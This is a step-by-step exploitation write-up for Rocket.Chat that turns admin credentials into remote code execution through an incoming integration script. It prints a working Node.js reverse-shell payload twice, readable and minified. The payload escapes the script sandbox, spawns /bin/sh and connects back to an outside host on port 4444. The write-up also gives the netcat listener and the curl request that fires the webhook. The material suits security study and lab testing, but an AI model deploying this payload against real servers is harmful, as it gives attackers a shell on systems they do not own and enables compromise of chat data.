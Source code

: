 # Rocket.Chat - Add an integration script

## Requirements

 - Username and password of an admin account

## Exploitation

Once you're connected, you have access to the main dashboard at http://TARGET/channel/general:

![](./imgs/dashboard.png)

### Accessing the admin dashboard

Then you should be able to access the admin dashboard at http://TARGET/admin/info:

![](./imgs/admin_page.png)

### Adding an integration script

Once on the admin dashboard, go to the "Integrations" page at http://TARGET/admin/integrations and create a new integration by clicking on the "+New" button or go at http://TARGET/admin/integrations/new/incoming:

![](./imgs/add_integration.png)

On this new page to create a new integration, we need to fill the "Post as" field with our username, and the "Post to Channel" with the name of a known channel or our username prefixed by `@`. Don't forget to enable the integration by clicking on the enable switch on top of the page (If you forgot to do this you'll get a "Service Unavailable" in response of your POST request):

![](./imgs/add_integration_page.png)

Once this is done, we need to scroll down the page to the "Script" section, and add a script creating a reverse shell. You can use the following script:

```js
class Script {
  process_incoming_request({ request }) {
    const require = console.log.constructor('return process.mainModule.require')();
    const { execSync } = require('child_process');
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "192.168.1.27", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return {}
  }
}
```

Here is the same script but minified:

```js
class Script{process_incoming_request({request}){const require=console.log.constructor('return process.mainModule.require')();const {execSync}=require('child_process');var n = require("net"),c=require("child_process"),p = c.spawn("/bin/sh",[]);var s = new n.Socket();s.connect(4444,"192.168.1.27",function(){s.pipe(p.stdin);p.stdout.pipe(s);p.stderr.pipe(s);});return {}}}
```

Then enable it by clicking on the enable switch on top of the "Script" textarea and save this integration by clicking on "Save" at the bottom of the page.

![](./imgs/script_added.png)

### Triggering the integration

Now that the integration script is installed in Rocket.Chat, we need to trigger it with a POST request to a specific endpoint. To get this endpoint or directly the cURL command to access it, go back on the integration you just created and scroll down to the bottom of the page.  

![](./imgs/getting_webhook_url.png)

Then we start a listener with `nc -lvnp 4444` in a terminal, and we launch the cURL command in another:

```sh
curl -X POST -H 'Content-Type: application/json' --data '{"text":"Example message"}' http://localhost:13000/hooks/YhhM5pSETkxH5yChf/4PW68bZhXbojY5sreznALpWL8tnYe8g7NtJh4FXqMrYorBkG
```

And we get a reverse shell on the Rocket.Chat server:

![](./imgs/got_shell.png)

## References
 - https://docs.rocket.chat/quick-start/deploying-rocket.chat/rapid-deployment-methods/docker-and-docker-compose/docker-containers/available-images
 - https://hackerone.com/reports/1130721
 - https://blog.sonarsource.com/nosql-injections-in-rocket-chat/